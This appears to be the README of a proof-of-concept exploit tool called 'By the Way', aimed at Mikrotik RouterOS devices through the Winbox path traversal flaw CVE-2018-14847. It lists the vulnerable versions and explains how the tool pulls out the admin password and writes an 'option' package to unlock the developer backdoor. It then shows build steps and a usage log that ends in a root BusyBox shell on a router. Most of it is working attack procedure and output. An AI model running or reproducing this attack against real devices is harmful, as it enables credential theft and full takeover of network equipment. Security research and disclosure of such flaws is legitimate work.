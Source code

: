 # By the Way

By the Way is an exploit that enables a root shell on Mikrotik devices running RouterOS versions:

* Longterm: 6.30.1 - 6.40.7
* Stable: 6.29 - 6.42
* Beta: 6.29rc1 - 6.43rc3

The exploit leverages the path traversal vulnerability CVE-2018-14847 to extract the admin password and create an "option" package to enable the developer backdoor. Post exploitation the attacker can connect to Telnet or SSH using the root user "devel" with the admin's password.

Mikrotik patched CVE-2018-14847 back in April. However, until this PoC was written, I don't believe its been publicly disclosed that the attack can be levegered to write files. You can find Mikrotik's advisory here:

* https://blog.mikrotik.com/security/winbox-vulnerability.html

Note that, while this exploit is written for Winbox, it could be ported to HTTP as long as you had prior knowledge of the admin credentials.

## Dependencies
This PoC relies on:

* Boost
* pthread
* cmake

## Build Insturctions

```sh
albinolobster@ubuntu:~/mikrotik$ cd poc/bytheway/
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ mkdir build
albinolobster@ubuntu:~/mikrotik/poc/bytheway$ cd build/
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ cmake ..
-- The C compiler identification is GNU 7.3.0
-- The CXX compiler identification is GNU 7.3.0
-- Check for working C compiler: /usr/bin/cc
-- Check for working C compiler: /usr/bin/cc -- works
-- Detecting C compiler ABI info
-- Detecting C compiler ABI info - done
-- Detecting C compile features
-- Detecting C compile features - done
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features
-- Detecting CXX compile features - done
-- Boost version: 1.65.1
-- Found the following Boost libraries:
--   program_options
--   system
--   regex
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albinolobster/mikrotik/poc/bytheway/build
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ make
Scanning dependencies of target btw
[ 20%] Building CXX object CMakeFiles/btw.dir/src/main.cpp.o
[ 40%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/md5.cpp.o
[ 60%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_session.cpp.o
[ 80%] Building CXX object CMakeFiles/btw.dir/home/albinolobster/mikrotik/common/winbox_message.cpp.o
[100%] Linking CXX executable btw
[100%] Built target btw
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ 
```

## Usage Example

```sh
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 
Login failed, incorrect username or password

Connection closed by foreign host.
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ ./btw -i 192.168.1.251

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴ 

[+] Extracting passwords from 192.168.1.251:8291
[+] Searching for administrator credentials 
[+] Using credentials - admin:lol
[+] Creating /pckg/option on 192.168.1.251:8291
[+] Creating /flash/nova/etc/devel-login on 192.168.1.251:8291
[+] There's a light on
albinolobster@ubuntu:~/mikrotik/poc/bytheway/build$ telnet -l devel 192.168.1.251
Trying 192.168.1.251...
Connected to 192.168.1.251.
Escape character is '^]'.
Password: 


BusyBox v1.00 (2017.03.02-08:29+0000) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux MikroTik 3.3.5 #1 Thu Mar 2 08:16:25 UTC 2017 mips unknown
# cat /rw/logs/VERSION
v6.38.4 Mar/08/2017 09:26:17
# Connection closed by foreign host.
```

